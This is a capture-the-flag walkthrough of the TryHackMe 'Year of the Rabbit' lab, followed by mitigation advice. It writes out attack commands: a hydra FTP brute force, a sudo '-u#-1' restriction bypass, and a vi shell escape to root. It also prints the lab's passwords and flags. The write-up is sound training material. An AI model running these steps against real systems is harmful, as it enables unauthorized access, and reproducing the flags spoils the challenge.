 # Year of the Rabbit – TryHackMe VAPT Walkthrough Report

**Prepared by:** Nishanth Antony  
**Date:** August 14, 2025  
**Difficulty:** Medium  
**Category:** Web Exploitation / Privilege Escalation  
**Platform:** TryHackMe (THM)  

---

## 1. Reconnaissance Steps

- **Objective:** Identify open ports, services, and potential vulnerabilities.
- **Commands Used:**  
  ```bash
  nmap -A <target_ip>
  gobuster dir -u http://<target_ip> -w /usr/share/wordlists/dirb/common.txt
  ```
- **Findings:**
  - Open ports: HTTP (80), FTP (21), SSH (22).
  - Gobuster revealed directories: `/.hta`, `/.htpasswd`, `/.htaccess` (403), `/assets` (301), `/index.html` (200), `/server-status` (403).
  - `/assets` contained a CSS file and a fake lead pointing to `/sup3r_s3cr3t_flag.php`.
  - Intercepted HTTP request revealed a hidden directory `/WExYY2Cv-qU` containing an image.
  - Strings in the image provided FTP username `ftpuser` and a password list.

---

## 2. Exploitation Process

### Step 1 – Web Application Enumeration
- Enumerated web server using Gobuster, identifying `/assets` and `/sup3r_s3cr3t_flag.php`.
- Intercepted request via Burp Suite revealed:
  ```http
  GET /intermediary.php?hidden_directory=/WExYY2Cv-qU HTTP/1.1
  ```
- Found an image in `/WExYY2Cv-qU`. Extracted strings revealed FTP credentials.

### Step 2 – FTP Credential Brute Force
- Used `hydra` to brute-force FTP with provided username `ftpuser` and password list:
  ```bash
  hydra -l ftpuser -P ftp_pass.txt ftp://<target_ip>
  ```
- **Result:** Obtained valid FTP password.
- Downloaded a file containing Brainfuck code.

### Step 3 – Brainfuck Code Analysis
- Decoded Brainfuck code, yielding:
  ```text
  User: eli
  Password: DSpDiM1wAEwid
  ```

### Step 4 – SSH Access
- Logged in via SSH using credentials `eli:DSpDiM1wAEwid`:
  ```bash
  ssh eli@<target_ip>
  ```
- Found a message from Root to Gwendoline about a secret hiding place.

### Step 5 – Hidden File Discovery
- Navigated to `/usr/games/s3cr3t` and found a hidden file:
  ```bash
  cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
  ```
- Revealed Gwendoline’s password: `MniVCQVhQHUNI`.

### Step 6 – User Privilege Escalation
- Switched to `gwendoline` user:
  ```bash
  su gwendoline
  ```
- Read `user.txt`:
  ```text
  THM{1107174691af9ff3681d2b5bdb5740b1589bae53}
  ```

### Step 7 – Root Privilege Escalation
- Checked `sudo -l` for `gwendoline`:
  ```text
  User gwendoline may run the following commands on year-of-the-rabbit:
      (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
  ```
- Exploited `vi` to gain root access by running:
  ```bash
  sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
  ```
- Inside `vi`, executed `:!/bin/bash` to spawn a root shell.
- Navigated to `/root` and read `root.txt`:
  ```text
  THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
  ```

---

## 3. Proof of Concept (PoC)

- **Web Enumeration:**  
  ```bash
  gobuster dir -u http://<target_ip> -w /usr/share/wordlists/dirb/common.txt
  ```
  Revealed hidden directories and files.
- **FTP Brute Force:**  
  ```bash
  hydra -l ftpuser -P ftp_pass.txt ftp://<target_ip>
  ```
  Obtained FTP access.
- **SSH Access:**  
  ```bash
  ssh eli@<target_ip>
  ```
  Used Brainfuck-decoded credentials.
- **Privilege Escalation:**  
  ```bash
  sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
  ```
  Spawned root shell via `vi` exploit.

---

## 4. Privilege Escalation

- Exploited `gwendoline`’s `sudo` privileges for `vi` to run a root shell.
- Used `sudo -u#-1` to bypass restrictions and gain root access.

---

## 5. Mitigation Recommendations

- **Web Server Hardening:**  
  - Remove or restrict access to sensitive files (e.g., `/sup3r_s3cr3t_flag.php`, `/intermediary.php`).
  - Sanitize parameters in `intermediary.php` to prevent directory traversal.
- **FTP Security:**  
  - Enforce strong, unique passwords.
  - Disable anonymous FTP access.
  - Implement account lockout after failed attempts.
- **SSH Security:**  
  - Use strong passwords or key-based authentication.
  - Enable multi-factor authentication.
- **Sudo Configuration:**  
  - Restrict `sudo` commands to prevent privilege escalation (e.g., avoid allowing `vi` without restrictions).
  - Remove unnecessary `NOPASSWD` entries.
- **File System Security:**  
  - Restrict access to sensitive directories like `/usr/games/s3cr3t`.
  - Use proper file permissions to prevent unauthorized access.
- **Patch Management:**  
  - Regularly update system packages and remove unnecessary services.
  - Monitor for suspicious activity in logs.

---

## 6. Lessons Learned

- **Hidden Files and Directories:** Exposed sensitive information can lead to credential leaks.
- **Weak Credentials:** Easily brute-forced passwords enable unauthorized access.
- **Misconfigured Sudo Privileges:** Allowing `vi` execution without restrictions can lead to root access.
- **Brainfuck Code:** Decoding obscure formats can reveal critical credentials.
- **Privilege Escalation:** Combining user access with misconfigured permissions can compromise the entire system.

---

## 7. Skills Practiced

- Network scanning (`nmap`, `gobuster`)
- Web application enumeration and Burp Suite interception
- FTP brute-forcing with `hydra`
- Brainf*** code analysis
- SSH exploitation
- Sudo privilege escalation via `vi`
- Secure reporting and mitigation strategies
